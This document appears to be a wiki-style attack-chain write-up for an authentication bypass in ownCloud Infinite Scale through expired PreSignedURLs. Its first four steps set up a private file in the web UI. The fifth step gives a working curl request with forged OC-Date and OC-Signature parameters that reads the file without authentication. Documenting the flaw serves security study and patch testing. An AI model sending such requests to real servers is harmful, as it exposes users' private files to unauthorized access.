

# Authentication Bypass in ownCloud Infinite Scale via Expired PreSignedURL

Multi-stage attack chain demonstrating a complete attack workflow to bypass authentication in ownCloud Infinite Scale (oCIS) using the default-enabled PreSignedURL feature. The vulnerability stems from a failure in the expiry check within the OC-Date and OC-Expires variables, which skips signature verification if the date is expired, allowing unauthorized access to private files when the username and filename are known.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for initial setup
- [[commands/curl-owncloud-presigned-bypass]] for exploitation

### Target Environment

- ownCloud Infinite Scale (oCIS) instance running on port 9200
- Web platform with DAV endpoint enabled
- Go-based tech stack

### Initial Access Requirements

- Valid admin credentials for setup (username known for exploitation)
- Network access to the ownCloud instance
- Knowledge of target username and private filename

## Detailed Attack Procedures

### Step 1: Login to ownCloud Instance
procedure: [[procedures/Setup-Private-File-in-ownCloud]]

**Objective**: Authenticate as a legitimate user to prepare the environment for file creation.

**Instructions**: Use the admin username to log in to the ownCloud web interface.

**Expected Output**: Successful login to the dashboard.

**Success Indicators**:
- Dashboard accessible
- User session established

### Step 2: Create a New Private File
procedure: [[procedures/Setup-Private-File-in-ownCloud]]

**Objective**: Create a new plain text file to serve as the target for unauthorized access.

**Instructions**: In the file manager, press 'New' and select 'Plain text file', naming it 'secret.txt'.

**Expected Output**: New file 'secret.txt' appears in the user's home directory.

**Success Indicators**:
- File created successfully
- No sharing enabled by default

### Step 3: Add Content and Save the File
procedure: [[procedures/Setup-Private-File-in-ownCloud]]

**Objective**: Populate the file with sensitive content to demonstrate data exposure.

**Instructions**: Open 'secret.txt', add 'secret file content', and save.

**Expected Output**: File updated with the specified content.

**Success Indicators**:
- Content saved without errors
- File remains private

### Step 4: Verify File Privacy
procedure: [[procedures/Setup-Private-File-in-ownCloud]]

**Objective**: Confirm the file is not public or shared, ensuring it's only accessible to the authenticated user.

**Instructions**: Check file permissions in the ownCloud interface to verify no sharing or public links.

**Expected Output**: Permissions show private access only.

**Success Indicators**:
- No share options active
- Access restricted to owner

### Step 5: Access File via Crafted PreSignedURL
procedure: [[procedures/Craft-Expired-PreSignedURL-for-Auth-Bypass]]

**Objective**: Bypass authentication by crafting an expired PreSignedURL that skips signature validation.

**Instructions**: Construct the URL with an expired OC-Date and invalid signature, then execute using [[commands/curl-owncloud-presigned-bypass]]:

```bash
curl "https://localhost:9200/remote.php/dav/files/admin/secret.txt?OC-Credential=admin&OC-Verb=GET&OC-Expires=60&OC-Date=2024-01-27T00:00:00.000Z&OC-Signature=notchecked"
```

**Expected Output**: File content 'secret file content' returned without authentication.

**Success Indicators**:
- HTTP 200 response with file data
- No authentication prompt

## Attack Chain Summary

### Key Achievements

1. Legitimate setup of a private file with sensitive content
2. Exploitation of PreSignedURL expiry flaw to bypass auth
3. Unauthorized retrieval of private file data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T12:00:00Z*
